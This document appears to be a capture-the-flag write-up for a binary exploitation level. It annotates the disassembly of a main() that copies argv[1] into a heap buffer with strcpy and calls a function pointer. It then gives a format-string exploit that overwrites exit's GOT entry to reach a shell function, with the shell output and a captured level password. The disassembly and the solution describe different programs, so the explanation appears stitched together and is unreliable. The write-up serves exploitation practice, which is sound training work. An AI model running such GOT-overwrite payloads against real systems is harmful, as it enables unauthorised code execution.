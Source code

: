 
#### notes
```
8048454  n    : fn : called in n
8048468  m    : fn : called in main
804847c  main : rak 3arf
```

#### 0x0804847c: main() : disassembly
_`<0> → <+6> : prepare stack frame for n function with size 32`_
```c
0x0804847c <+0>:	push   ebp
0x0804847d <+1>:	mov    ebp,esp
0x0804847f <+3>:	and    esp,0xfffffff0 // stack align
0x08048482 <+6>:	sub    esp,0x20 // 32
```
_`<+9> → <+21> : ...`_
```c
0x08048485 <+9>:	mov    DWORD PTR [esp],0x40 // *esp = 64
0x0804848c <+16>:	call   0x8048350 <malloc@plt> // eax = malloc(64)
0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax // esp+28 = eax
```
_`<+25> → <+37> : ...`_
```c
0x08048495 <+25>:	mov    DWORD PTR [esp],0x4 // *esp = 4
0x0804849c <+32>:	call   0x8048350 <malloc@plt> // eax = malloc(4)
0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax //  *esp+24 = eax
```
_`<+41> → <+50> : ...`_
```c
0x080484a5 <+41>:	mov    edx,0x8048468 // eax = &m address
0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18] // eax = *esp+0x18 (address of malloc(4))
0x080484ae <+50>:	mov    DWORD PTR [eax],edx // *eax = &m (m() address)
```
_`<+52> → <+58> : ...`_
```c
0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc] // eax = argv
0x080484b3 <+55>:	add    eax,0x4 // eax = eax + 4 = argv+1 = argv[1]
0x080484b6 <+58>:	mov    eax,DWORD PTR [eax] //eax = *argv[1] (value of argv[1])
```
_`<+60> → <+73> : ...`_
```c
0x080484b8 <+60>:	mov    edx,eax // edx = eax = argv[1]
0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c] // eax = return of malloc(64) the address in the hype
0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx // store edx respectivly at the first line in the stack
0x080484c2 <+70>:	mov    DWORD PTR [esp],eax // store eax in top of stack preparing the args for strcpy
0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> // strcpy(eax, edx) <=> strcpy(malloc(64), argv[1])
```
_`<+78> → <+84> : get the address stored in address return by malloc(4) and call it , which is (m) function`_
```c
// const m2 = malloc(2)
0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]//eax = &m2
0x080484ce <+82>:	mov    eax,DWORD PTR [eax] =  eax = *eax = &m
0x080484d0 <+84>:	call   eax // (**eax)() call the address in eax as function eax() in other word : m()
```
_`<+86> → <+87> : quit the main function `_
```c
0x080484d2 <+86>:	leave
0x080484d3 <+87>:	ret
```
 
#### stack illustration
```
                high addresse
            +---------------------+
            :         argv        :
EBP+12  ->  +---------------------+
            :         argc        :
EBP+8   ->  +---------------------+
            :          eip        :
EBP+4   ->  +---------------------+
            :          ebp        :
EBP     ->  +---------------------+ -------\
            :      extra space    :        |
            :  stack alignement   :        |
ESP+28  ->  +---------------------+        |
            : malloc(64)  return  :        |
ESP+24  ->  +---------------------+        |   
            : malloc(4)   return  :        |
            +---------------------+        |  
                      .                    |
                      .                    | 32 bytes
                      .                    |
                      .                    |
                      .                    |
            +---------------------+        |
            :        argv[1]      :        |
ESP+4   ->  +---------------------+        |
            : malloc(64)  return  :        |
ESP         +---------------------+ -------/
                low address
``` 
---
#### Solution :
---

##### explanation of he exploit:

since the function `o` that calls the shell is not called in `n` function nor the main
so the idea here is : find a a vulnerability to call `o` from `n`
instead of exit the `n` we have to redirect it to execute the `o`
__how we will do that ?__ : 
- we have to overwrite the address where `<_exit@plt>` jumps (___global offset table___ __GOT__, search about it), to the address of `o` (_0x080484a4_)
ok lets start the process:

looking at the assembly of exit function inside the n function
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
0x080483d6 <+6>:	push   0x28
0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb)
```
the exit function jumps into `0x8049838` 
we have to change the value the value of this address by the address of `o` →`0x080484a4`
since we have only printf as a door to the exploit we will have to use the `%n` methode to write address into address
___what ?___
yes , simply we convert the address we want to change with to decimal 
in our case:
```
exit → 0x8049838
o    → 0x080484a4(hex) → 134513828(decimal)
```

final exploit : 
```shell
(python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d" + "%4$n"'; cat -) | ./level5

whoami
level6
pwd
/home/user/level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
